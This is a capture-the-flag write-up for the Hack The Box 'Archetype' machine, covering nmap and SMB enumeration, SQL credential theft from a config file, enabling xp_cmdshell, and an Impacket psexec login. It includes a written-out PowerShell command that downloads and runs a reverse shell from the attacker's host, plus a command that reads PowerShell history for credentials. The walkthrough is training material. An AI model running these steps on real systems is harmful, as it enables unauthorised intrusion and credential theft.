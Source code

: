 # Archetype

![Archetype](../Images/htb_archetype_1.png)

**Tools: nmap, smbclient, netcat, Impacket (mssqlclient.py and psexec.py).**

We begin with a scan using nmap (this machine’s IP is 10.10.10.27):  
`nmap -n -sC -sV -Pn -T4 10.10.10.27`

Or for a more complete scan:  
`nmap -n -sC -sV -p- -Pn 10.10.10.27`

![Archetype](../Images/htb_archetype_2.png)

The result shows a few open ports, the most promising being 445 (smb) and 1433 (sql server).  
Next up, we try to enumerate the smb with smbclient to look for shared folders:  
`smbclient -L \\10.10.10.27 -N`

![Archetype](../Images/htb_archetype_3.png)

There is a ‘backups’ share, and upon accessing it, we see a file called ‘prod.dtsConfig’, then we simply download it:  
```
smbclient -N //10.10.10.27/backups  
dir  
get prod.dtsConfig  
```

![Archetype](../Images/htb_archetype_4.png)

Now we can read the file:  
`cat prod.dtsConfig`

![Archetype](../Images/htb_archetype_5.png)

This is a config file from the SQL Server, and we can see that there is a Password and an User field. We can use this to connect to the SQL Server, and for this we’ll be using the mssqlclient.py script from the Impacket toolkit. Now this is the part where I ran into some issues with this script, so I had to do the following procedure to get it to work.  

Install pip for python3:  
`sudo apt install python3-venv python3-pip`

Git clone impacket, better do it to at /opt to keep it organized:  
`sudo git clone https://github.com/SecureAuthCorp/impacket.git`

Go inside the impacket folder (cd impacket) and run:  
`pip3 install .`

Next, we go to the ‘examples’ folder, where the script is, and run the following command to log into the SQL Server:  
`python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth`

We insert the password found previously and we’re in.  
Next up, we run a query to find out if we have the highest privileges:  
`SELECT IS_SRVROLEMEMBER (‘sysadmin’)`

The answer should be 1 (= true), confirming that we have sysadmin privileges.

![Archetype](../Images/htb_archetype_6.png)

Now we can enable the xp_cmdshell (“Spawns a Windows command shell and passes in a string for execution”) to gain Remote Command Execution (RCE):  
```
EXEC sp_configure ‘Show Advanced Options’, 1;  
reconfigure;  
sp_configure;  
EXEC sp_configure ‘xp_cmdshell’, 1  
reconfigure;  
xp_cmdshell “whoami” (run commands to test, like ‘whoami’ or ‘hostname’)  
```

![Archetype](../Images/htb_archetype_7.png)

In order to get a ‘real’ shell, we can try a reverse shell. Below, is the powershell reverse shell that we’ll be using. You can find more reverse shells at [**RevShells.com**](https://www.revshells.com/) and customize it with your current IP address, port, and other options) — my IP was 10.10.15.29, and we’re using port 443 (keep in mind that it’s an one-liner command) - I had to take a screenshot of the code because some AVs were blocking this page (also the Revshells website), but at revshells.com select Reverse > Powershell #2 and set the IP/port:

![Archetype](../Images/htb_archetype_code.png)

We save it to a *‘revshell.ps1’* file in our VM.  
Then we set up a python http server to host the revshell file:  
`python -m SimpleHTTPServer 80`  
or  
`python3 -m http.server 80`  

Now we can start a netcat listening session on port 443:  
`nc -vnlp 443`

~ If you have your ufw firewall enabled in your VM, you’ll need to change the rules to allow incoming requests to ports 80 and 443:  
`ufw allow from 10.10.10.27 proto tcp to any port 80,443`

Now in our target machine’s SQL Server, we can run the command to download our revshell file (**one-liner command**):  
`xp_cmdshell “powershell “IEX (New-Object Net.WebClient).DownloadString(\”http://10.10.15.29/revshell.ps1");”`

And back to our netcat…

![Archetype](../Images/htb_archetype_8.png)

We have a shell!  
The user.txt file containing the user flag is at the sql_svc user’s desktop, so we just read the file:

![Archetype](../Images/htb_archetype_9.png)

In order to get the root flag, we’ll need to, well, become root (in this ‘Windows case’, Administrator a.k.a ‘nt authority\system’). As this sql_svc account is a service account, it’s good practice to check for recently accessed files / executed commands. To do so in PowerShelll, we can insert the command below in our reverse shell (**one-liner command**):  
`type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

![Archetype](../Images/htb_archetype_10.png)

And there it is! “Someone” mapped the *‘backups’* share using the administrator credentials.  

Next step is to use another Impacket script, psexec.py (we do so in our VM’s terminal, so we go back to the /opt/impacket/examples folder):  
`python3 psexec.py administrator@10.10.10.27`

We simply provide the password when asked, and do a quick whoami check:

![Archetype](../Images/htb_archetype_11.png)

Now we just need to read the root.txt file at the administrator’s desktop:

![Archetype](../Images/htb_archetype_12.png)

![Archetype](../Images/htb_archetype_13.png)

**Some useful resources to understand the procedures used to root this box:**  

mssqlclient.py troubleshoot  
* https://forum.hackthebox.eu/discussion/3034/starting-point-foothold-mssqlclient-py  

IS_SRVROLEMEMBER (‘sysadmin’)  
* https://docs.microsoft.com/en-us/sql/t-sql/functions/is-srvrolemember-transact-sql?redirectedfrom=MSDN&view=sql-server-ver15  

xp_cmdshell  
* https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15  
* https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server  
* https://www.sqlshack.com/use-xp-cmdshell-extended-procedure/  
* https://rioasmara.com/2020/01/31/mssql-rce-and-reverse-shell-xp_cmdshell/
